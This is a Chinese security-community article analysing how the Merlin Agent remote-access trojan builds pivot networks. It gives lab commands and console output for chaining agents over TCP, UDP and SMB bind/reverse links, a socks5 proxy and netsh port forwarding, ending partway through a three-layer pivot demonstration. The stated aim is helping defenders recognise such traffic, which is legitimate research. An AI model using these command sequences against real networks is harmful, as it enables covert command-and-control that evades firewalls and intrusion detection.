# 突破网络限制，Merlin Agent助你轻松搭建跳板网络！-先知社区

> **来源**: https://xz.aliyun.com/news/18329  
> **文章ID**: 18329

---

## 概述

简单小结：

`今年年初，笔者就Merlin Agent进行了系列研究，从Merlin Agent的操作机制、加密通信、木马通信隐藏手段等多个角度进行了详细剖析，产出了多篇分析文章。`

`为什么笔者会对Merlin Agent进行一系列的研究？1.此远控木马确实被用于实战攻击场景中；2.此远控木马还在Github上持续更新；3.此远控木马除了常见的远控功能外，还支持对多种上线通信协议、跳板通信协议、通信解密算法等进行自定义配置，可定制化配置很强；4.网络上关于此远控木马的深入研究几乎没有，`**因此，笔者想就此远控木马作为分析案例，用于深度剖析常见APT木马的攻防技术手段。**

前言：

`经过前面几篇文章的分析，我们已经对Merlin Agent的操作机制、加密通信等方面有了详细了解，但在真正的攻击过程中，如何突破复杂的网络防护依然是一个巨大的挑战。`

`许多企业和组织都会部署各种网络限制措施，比如防火墙、入侵检测系统等，来拦截木马的正常通信。面对这些障碍，攻击者如何“绕过”这些防线，建立可靠的连接呢？`

`在现代网络安全环境中，跳板网络（也称为中转节点）已经成为攻击者绕过安全防护、增强隐蔽性的重要工具。通过使用跳板网络，攻击者能够隐藏真实来源，穿越多个网络层，避开防火墙和入侵检测系统，极大地提高了攻击的成功率和持久性。跳板网络的多重路径转发特性使其成为高级持续性威胁（APT）攻击、网络渗透和数据窃取等恶意活动中的常见手段。`

回到正题：

在这篇文章中，笔者将在前面文章的基础上，继续对Merlin Agent远控木马进行深入的研究，尝试使用Merlin Agent远控木马搭建跳板网络，辅助大家更好的了解基于跳板网络进行木马通信的APT木马攻击场景，便于能够更好的对此类网络攻击行为进行识别。

本篇文章的内容主要分为以下几个方面：

* Merlin Agent远控木马多种跳板通信实现原理
* 基于Merlin Agent远控木马内置的跳板技术构建多种不同通信协议的跳板网络
* Merlin Agent远控木马socks5代理实现原理
* 基于Merlin Agent远控木马内置的socks5代理功能构建跳板网络
* 模拟实战攻击场景：基于Merlin Agent远控木马内置的跳板技术、socks5代理功能以及端口转发等网络环境构建多层跳板网络
* 基于Merlin Agent远控木马底层实现原理，梳理跳板网络中识别C&C地址的方法

## 跳板技术深入剖析

其实在前面《Merlin后渗透利用框架之Merlin Agent通信加解密原理剖析》文章的“Merlin Agent多种上线通信协议”章节中，我们就曾看到Merlin Agent跳板网络所使用的通信协议，只是当前没有详细的研究。因为笔者当时主要是在研究上线通信协议，研究的过程中，发现命令行中还支持SMB、TCP、UDP，于是笔者就对其进行了上线通信研究，发现无法成功上线。为了究其原因，于是笔者对其进行了深入剖析，才发现SMB、TCP、UDP原来是Merlin Agent远控木马用来构建跳板网络的通信协议。

查看其官方介绍，我们发现，官方介绍SMB、TCP、UDP主要用于Agent之间的点对点通信，相关截图如下：



### SMB跳板技术剖析

尝试查看Merlin Agent的SMB通信协议的实现方法，笔者发现其是基于`github.com/Ne0nd0g/npipe`项目（与Merlin Agent同属一个账号下的项目）实现的。

相关代码截图如下：



查看`github.com/Ne0nd0g/npipe`项目内容，发现`github.com/Ne0nd0g/npipe`项目是基于`github.com/natefinch/npipe`项目fork的，相关截图如下：



尝试分析`github.com/Ne0nd0g/npipe`项目代码，发现其底层通过`golang.org/x/sys/windows`扩展库调用了CreateNamedPipe、ConnectNamedPipe、WaitNamedPipeW等系统函数构建了命令管道进行远程通信。在远程通信过程中，利用SMB协议封装了命令管道通信。相关代码截图如下：



### TCP跳板技术剖析

尝试查看Merlin Agent的TCP通信协议的实现方法，发现其直接基于net库实现的TCP跳板通信，相关代码截图如下：



### UDP跳板技术剖析

尝试查看Merlin Agent的UDP通信协议的实现方法，发现其也是直接基于net库实现的UDP跳板通信，相关代码截图如下：



## 多种通信协议下的跳板网络

为了能够对其跳板技术进行深入剖析和复现，笔者从实际操作、通信数据包等多个角度对其跳板技术进行了研究，梳理情况如下：

* Merlin Agent支持通过`-proto`参数加载多个跳板通信协议选项：

* tcp-bind：TCP 监听
* tcp-reverse：TCP反弹连接
* udp-bind：UDP监听
* udp-reverse：UDP反弹连接
* smb-bind：SMB监听
* smb-reverse：SMB反弹连接

* 使用上述跳板通信协议时，还需要配置`-listener`参数，Merlin Agent的运行参数必须与Merlin Server中的listeners配置相同；

为了能够更详细的剖析Merlin Agent的跳板技术，接下来我们将通过对**多种上线通信协议**与**多种跳板通信协议**进行搭配组合的方式对Merlin Agent的跳板技术进行详细剖析，详细情况如下：

### HTTP + tcp-bind

尝试基于HTTP通信协议上线第一个Merlin Agent远控木马，随后基于tcp-bind通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTP
Merlin[listeners][HTTP]» set Interface 192.168.64.128

[+] 2025-02-24T12:36:52Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP]» start

[+] 2025-02-24T12:36:54Z Started 'My HTTP Listener' listener with an ID of 4cee31f6-6c0b-484c-af08-9b6d08639268 and a HTTP server on 192.168.64.128:80
Merlin[listeners][4cee31f6-6c0b-484c-af08-9b6d08639268]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| ID            | 4cee31f6-6c0b-484c-af08-9b6d08639268         |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Protocol      | HTTP                                         |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| JWTKey        | bW1mR2xTRkpEenRJV2lpSkJheW9PT3JRZFdVS0d0Skc= |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][4cee31f6-6c0b-484c-af08-9b6d08639268]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe -url http://192.168.64.128:80/ -proto http -sleep 5s
```

* 第二个Merlin Agent（运行环境：Kali；192.168.64.135）【**备注：-listener要与上述Merlin Server中的listeners的UUID一致**】

```
./merlinAgent-Linux-x64 -addr 0.0.0.0:7777 -proto tcp-bind -listener 4cee31f6-6c0b-484c-af08-9b6d08639268 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][4cee31f6-6c0b-484c-af08-9b6d08639268]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+--------+--------------+-------
  8bfac2cc-81ec-4644-83cb-ebff142b45af | http      | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(5128) | Active | 0:00:03 ago  |

Merlin[listeners][4cee31f6-6c0b-484c-af08-9b6d08639268]» interact 8bfac2cc-81ec-4644-83cb-ebff142b45af
Merlin[agent][8bfac2cc-81ec-4644-83cb-ebff142b45af]» link tcp 192.168.64.135:7777
```

成功上线后的Merlin-cli端截图如下：



#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.135）





### HTTPS + tcp-reverse

尝试基于HTTPS通信协议上线第一个Merlin Agent远控木马，随后基于tcp-reverse通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-02-24T13:00:37Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» start

[-] 2025-02-24T13:00:40Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-24T13:00:43Z Started 'My HTTP Listener' listener with an ID of 98d4b690-763a-40fb-b02e-52015ab31073 and a HTTPS server on 192.168.64.128:443

Merlin[listeners][98d4b690-763a-40fb-b02e-52015ab31073]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| Protocol      | HTTPS                                        |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| ID            | 98d4b690-763a-40fb-b02e-52015ab31073         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| JWTKey        | TVFjQXNOTVBuQXRXdUdwaFprWmFHS0ZpRWpLdmFvdnU= |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][98d4b690-763a-40fb-b02e-52015ab31073]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][98d4b690-763a-40fb-b02e-52015ab31073]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+--------+--------------+-------
  f5de6833-3900-47a3-87ad-927dd19ff668 | https     | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(2736) | Active | 0:00:02 ago  |

Merlin[listeners][98d4b690-763a-40fb-b02e-52015ab31073]» interact f5de6833-3900-47a3-87ad-927dd19ff668
Merlin[agent][f5de6833-3900-47a3-87ad-927dd19ff668]» listener start tcp 0.0.0.0:7777

[-] 2025-02-24T13:04:15Z Created job yaQqqygPRX for agent f5de6833-3900-47a3-87ad-927dd19ff668 at 2025-02-24T13:04:15Z
Merlin[agent][f5de6833-3900-47a3-87ad-927dd19ff668]»
[-] 2025-02-24T13:04:28Z Results of job yaQqqygPRX for agent f5de6833-3900-47a3-87ad-927dd19ff668 at 2025-02-24T13:04:28Z

[+] 2025-02-24T13:04:28Z Successfully started TCP listener on 0.0.0.0:7777
Merlin[agent][f5de6833-3900-47a3-87ad-927dd19ff668]»
```

* 第二个Merlin Agent（运行环境：Kali；192.168.64.135）【**备注：-listener要与上述Merlin Server中的listeners的UUID一致**】

```
./merlinAgent-Linux-x64  -addr 192.168.64.154:7777 -proto tcp-reverse -listener 98d4b690-763a-40fb-b02e-52015ab31073 -sleep 5s
```

成功上线后的Merlin-cli端截图如下：



#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.135）





### H2C + udp-bind

尝试基于H2C通信协议上线第一个Merlin Agent远控木马，随后基于udp-bind通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use H2C
Merlin[listeners][H2C]» set Interface 192.168.64.128

[+] 2025-02-24T13:13:58Z set 'Interface' to: 192.168.64.128
Merlin[listeners][H2C]» start

[+] 2025-02-24T13:14:00Z Started 'My HTTP Listener' listener with an ID of 09b47e7c-bd18-49e5-9e3b-268147d431a1 and a H2C server on 192.168.64.128:80
Merlin[listeners][09b47e7c-bd18-49e5-9e3b-268147d431a1]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Port          | 80                                           |
+---------------+----------------------------------------------+
| JWTKey        | VWRuYld6Z0JvVlFvemFaRHdLYnREd2RMb0xmaEFWSXM= |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Protocol      | H2C                                          |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| ID            | 09b47e7c-bd18-49e5-9e3b-268147d431a1         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][09b47e7c-bd18-49e5-9e3b-268147d431a1]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe  -url http://192.168.64.128:80/ -proto h2c -sleep 5s
```

* 第二个Merlin Agent（运行环境：Kali；192.168.64.135）【**备注：-listener要与上述Merlin Server中的listeners的UUID一致**】

```
./merlinAgent-Linux-x64 -addr 0.0.0.0:7777 -proto udp-bind -listener 09b47e7c-bd18-49e5-9e3b-268147d431a1 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][09b47e7c-bd18-49e5-9e3b-268147d431a1]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+--------+--------------+-------
  3959e770-18c9-4879-9109-726f9670a227 | h2c       | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(4780) | Active | 0:00:00 ago  |

Merlin[listeners][09b47e7c-bd18-49e5-9e3b-268147d431a1]» interact 3959e770-18c9-4879-9109-726f9670a227
Merlin[agent][3959e770-18c9-4879-9109-726f9670a227]» link udp 192.168.64.135:7777
```

成功上线后的Merlin-cli端截图如下：



#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.135）





### HTTP2 + udp-reverse

尝试基于HTTP2 通信协议上线第一个Merlin Agent远控木马，随后基于udp-reverse通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTP2
Merlin[listeners][HTTP2]» set Interface 192.168.64.128

[+] 2025-02-24T13:32:42Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP2]» start

[-] 2025-02-24T13:32:44Z Certificate was not found at: "C:\Users\admin\Desktop\merlin-main\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-02-24T13:32:46Z Started 'My HTTP Listener' listener with an ID of f9e2220f-f45d-480b-a7eb-f8e934c97635 and a HTTP2 server on 192.168.64.128:443
Merlin[listeners][f9e2220f-f45d-480b-a7eb-f8e934c97635]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Protocol      | HTTP2                                        |
+---------------+----------------------------------------------+
| JWTKey        | Q3NFcHB5TnV6b0FLTFB2T1lFc2lzTlVlWFNBVklqV1M= |
+---------------+----------------------------------------------+
| ID            | f9e2220f-f45d-480b-a7eb-f8e934c97635         |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][f9e2220f-f45d-480b-a7eb-f8e934c97635]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe  -url https://192.168.64.128:443/ -proto h2 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][f9e2220f-f45d-480b-a7eb-f8e934c97635]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+--------+--------------+-------
  e7b18498-c453-426a-b80a-f796bc77538c | h2        | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(1168) | Active | 0:00:01 ago  |

Merlin[listeners][f9e2220f-f45d-480b-a7eb-f8e934c97635]» interact e7b18498-c453-426a-b80a-f796bc77538c
Merlin[agent][e7b18498-c453-426a-b80a-f796bc77538c]» listener start udp 0.0.0.0:7777
```

* 第二个Merlin Agent（运行环境：Kali；192.168.64.135）【**备注：-listener要与上述Merlin Server中的listeners的UUID一致**】

```
./merlinAgent-Linux-x64  -addr 192.168.64.154:7777 -proto udp-reverse -listener f9e2220f-f45d-480b-a7eb-f8e934c97635 -sleep 5s
```

成功上线后的Merlin-cli端截图如下：



#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.135）





### HTTP3 + smb-bind

尝试基于HTTP3 通信协议上线第一个Merlin Agent远控木马，随后基于smb-bind通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTP3
Merlin[listeners][HTTP3]» set Interface 192.168.64.128

[+] 2025-06-24T11:40:07Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP3]» start

[-] 2025-06-24T11:40:13Z Certificate was not found at: "C:\Users\admin\Desktop\merlinServer-Windows-x64\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-06-24T11:40:19Z Started 'My HTTP Listener' listener with an ID of c557283c-b51c-4b4a-b569-853705caf569 and a HTTP3 server on 192.168.64.128:443
Merlin[listeners][c557283c-b51c-4b4a-b569-853705caf569]» info

+---------------+----------------------------------------------+
|     NAME      |                    VALUE                     |
+---------------+----------------------------------------------+
| Port          | 443                                          |
+---------------+----------------------------------------------+
| X509Key       |                                              |
+---------------+----------------------------------------------+
| Protocol      | HTTP3                                        |
+---------------+----------------------------------------------+
| Interface     | 192.168.64.128                               |
+---------------+----------------------------------------------+
| URLS          | /                                            |
+---------------+----------------------------------------------+
| Authenticator | OPAQUE                                       |
+---------------+----------------------------------------------+
| JWTKey        | UlhjVGxKdmJjUVFXdXhGVGpUdGNMbmZCS2xKZ3NDYmM= |
+---------------+----------------------------------------------+
| X509Cert      |                                              |
+---------------+----------------------------------------------+
| Transforms    | jwe,gob-base,                                |
+---------------+----------------------------------------------+
| PSK           | merlin                                       |
+---------------+----------------------------------------------+
| JWTLeeway     | 1m0s                                         |
+---------------+----------------------------------------------+
| ID            | c557283c-b51c-4b4a-b569-853705caf569         |
+---------------+----------------------------------------------+
| Name          | My HTTP Listener                             |
+---------------+----------------------------------------------+
| Description   | Default HTTP Listener                        |
+---------------+----------------------------------------------+
| Status        | Running                                      |
+---------------+----------------------------------------------+

Merlin[listeners][c557283c-b51c-4b4a-b569-853705caf569]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe  -url https://192.168.64.128:443/ -proto http3 -sleep 5s
```

* 第二个Merlin Agent（运行环境：Windows 10 ；192.168.64.175）

```
merlinAgent-Windows-x64.exe -addr \.\pipe\merlinpipe -proto smb-bind -listener c557283c-b51c-4b4a-b569-853705caf569 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][c557283c-b51c-4b4a-b569-853705caf569]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+--------+--------------+-------
  294780c3-c971-49d5-be46-0106387f7b41 | http3     | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(6868) | Active | 0:00:01 ago  |

Merlin[listeners][c557283c-b51c-4b4a-b569-853705caf569]» interact 294780c3-c971-49d5-be46-0106387f7b41
Merlin[agent][294780c3-c971-49d5-be46-0106387f7b41]» link smb 192.168.64.175 merlinpipe
```

成功上线后的Merlin-cli端截图如下：


#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.175）





### HTTP3 + smb-reverse

尝试基于HTTP3 通信协议上线第一个Merlin Agent远控木马，随后基于smb-reverse通信协议上线第二个Merlin Agent远控木马。

#### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）【与上述HTTP3 + smb-bind中配置相同】

```
Merlin» listeners
Merlin[listeners]» use HTTP3
Merlin[listeners][HTTP3]» set Interface 192.168.64.128

[+] 2025-06-24T11:59:59Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP3]» start

[-] 2025-06-24T12:00:01Z Certificate was not found at: "C:\Users\admin\Desktop\merlinServer-Windows-x64\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-06-24T12:00:03Z Started 'My HTTP Listener' listener with an ID of dc091fb7-76c4-4f8a-8a45-854d8d245ca5 and a HTTP3 server on 192.168.64.128:443
Merlin[listeners][dc091fb7-76c4-4f8a-8a45-854d8d245ca5]»
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）【与上述HTTP3 + smb-bind中配置相同】

```
merlinAgent-Windows-x64.exe  -url https://192.168.64.128:443/ -proto http3 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][dc091fb7-76c4-4f8a-8a45-854d8d245ca5]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS  | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+---------+--------------+-------
  922b1c0d-3845-47b1-aea6-825ce6bf3de7 | http3     | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(4436) | Delayed | 0:00:06 ago  |

Merlin[listeners][dc091fb7-76c4-4f8a-8a45-854d8d245ca5]» interact 922b1c0d-3845-47b1-aea6-825ce6bf3de7
Merlin[agent][922b1c0d-3845-47b1-aea6-825ce6bf3de7]» listener start smb merlinpipe
```

* 第二个Merlin Agent（运行环境：Windows 10 ；192.168.64.175）

```
merlinAgent-Windows-x64.exe -addr \192.168.64.154\pipe\merlinpipe -proto smb-reverse -listener dc091fb7-76c4-4f8a-8a45-854d8d245ca5 -sleep 5s
```

成功上线后的Merlin-cli端截图如下：



#### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 第一个Merlin Agent（192.168.64.154）





* 第一个Merlin Agent（192.168.64.154） <- > 第二个Merlin Agent（192.168.64.175）





## proxy代理技术剖析

在对跳板网络的研究过程中，笔者发现Merlin Agent远控木马还支持使用`-proxy`参数连接代理节点实现木马上线，进一步分析，发现`-proxy`参数当前仅支持配合HTTP、HTTPS协议实现木马上线。

相关说明文档介绍如下：



尝试查看Merlin Agent的proxy代理的实现方法，笔者发现其是基于`github.com/armon/go-socks5`项目实现的。

相关代码截图如下：



## proxy代理构建跳板网络

为了能够对其proxy代理技术进行深入剖析和复现，笔者从实际操作、通信数据包等多个角度对其proxy代理技术进行了研究。

### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTP
Merlin[listeners][HTTP]» set Interface 192.168.64.128

[+] 2025-06-24T12:14:45Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTP]» start

[+] 2025-06-24T12:14:48Z Started 'My HTTP Listener' listener with an ID of 16456839-18f7-41aa-8fd3-9412e25d9b18 and a HTTP server on 192.168.64.128:80
Merlin[listeners][16456839-18f7-41aa-8fd3-9412e25d9b18]» 
```

* sock5代理服务（运行环境：Kali；192.168.64.135）【基于`https://github.com/bhhbazinga/socks5`项目构建sock5代理服务】

```
┌──(kali㉿kali)-[~/Desktop/socks5-master]
└─$ make            
gcc -Wall -g -std=c99 -c -o socks5.o socks5.c
gcc -Wall -g -std=c99 -c -o buff.o buff.c
gcc -Wall -g -std=c99 -o socks5 socks5.o buff.o
                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/socks5-master]
└─$ sudo ./socks5 -a 192.168.64.135 -p 6080
```

* Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe -url http://192.168.64.128:80/ -proto http -proxy socks5://192.168.64.135:6080
```

成功上线后的Merlin-cli端截图如下：



### 通信数据包

相关通信数据包截图如下：

* Merlin Server（192.168.64.128） <- > 代理服务（192.168.64.135）





* 代理服务（192.168.64.135） <- > Merlin Agent（192.168.64.154）





## 模拟构建多层跳板网络

基于上述研究结果，我们当前可基于多种技术构建跳板网络，因此，笔者琢磨：**能否将多种跳板技术混合使用构建一个多层跳板网络？**

因此，在这里，笔者将尝试使用socks5代理服务（自己构建）、端口转发服务（自己构建）、TCP跳板网络等多种跳板技术构建多层跳板网络，详情情况如下：

* 共使用五台主机，构建三层跳板网络
* C&C地址（控制端）：192.168.64.128
* socks5代理：192.168.64.135，socks5代理端口6080
* Merlin Agent跳板：192.168.64.154
* 端口转发服务：192.168.64.175，将本地6666通信转发至192.168.64.154:7777
* 被控主机：192.168.64.176

### 实操流程

相关操作流程如下：

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin» listeners
Merlin[listeners]» use HTTPS
Merlin[listeners][HTTPS]» set Interface 192.168.64.128

[+] 2025-06-24T13:40:06Z set 'Interface' to: 192.168.64.128
Merlin[listeners][HTTPS]» start

[-] 2025-06-24T13:40:08Z Certificate was not found at: "C:\Users\admin\Desktop\0623\merlinServer-Windows-x64\data\x509\server.crt"
Creating in-memory x.509 certificate used for this session only

[+] 2025-06-24T13:40:11Z Started 'My HTTP Listener' listener with an ID of 0eb70e55-0f40-4aec-88f6-83422db341bb and a HTTPS server on 192.168.64.128:443
Merlin[listeners][0eb70e55-0f40-4aec-88f6-83422db341bb]»
```

* sock5代理服务（运行环境：Kali；192.168.64.135）

```
sudo ./socks5 -a 192.168.64.135 -p 6080
```

* 第一个Merlin Agent（运行环境：Windows 10 ；192.168.64.154）

```
merlinAgent-Windows-x64.exe -url https://192.168.64.128:443/ -proto https -proxy socks5://192.168.64.135:6080 -sleep 5s
```

* Merlin Server（运行环境：Windows 10 ；192.168.64.128）

```
Merlin[listeners][0eb70e55-0f40-4aec-88f6-83422db341bb]» sessions

               AGENT GUID              | TRANSPORT |   PLATFORM    |      HOST       |         USER          |              PROCESS              | STATUS  | LAST CHECKIN | NOTE
---------------------------------------+-----------+---------------+-----------------+-----------------------+-----------------------------------+---------+--------------+-------
  2a136206-497c-4cfd-aa38-2a1680507445 | https     | windows/amd64 | DESKTOP-A11RBL8 | DESKTOP-A11RBL8\admin | merlinAgent-Windows-x64.exe(2160) | Delayed | 0:00:05 ago  |

Merlin[listeners][0eb70e55-0f40-4aec-88f6-83422db341bb]» interact 2a136206-497c-4cfd-aa38-2a1680507445
Merlin[agent][2a136206-497c-4cfd-aa38-2a1680507445]» listener start tcp 0.0.0.0:7777
```

* 端口转发（运行环境：Windows 10 ；192.168.64.175）【参考：`https://kekxv.github.io/2021/08/07/Port forwarding that comes with Windows/`或`https://github.com/zmjack/PortProxyGUI`】

```
netsh interface portproxy add v4tov4  listenaddress=0.0.0.0 listenport=6666 connectaddress=192.168.64.154 connectport=7777
```

* 第三个Merlin Agent（运行环境：Windows 10 ；192.168.64.176）

```
merlinAgent-Windows-x64.exe -addr 192.168.64.175:6666 -proto tcp-reverse -listener 0eb70e55-0f40-4aec-88f6-83422db341bb -sleep 5s
```

成功上线后的Merlin-cli端截图如下：



### 通信数据包

相关通信数据包截图如下：



* Merlin Server（192.168.64.128） <- > sock5代理服务（192.168.64.135）



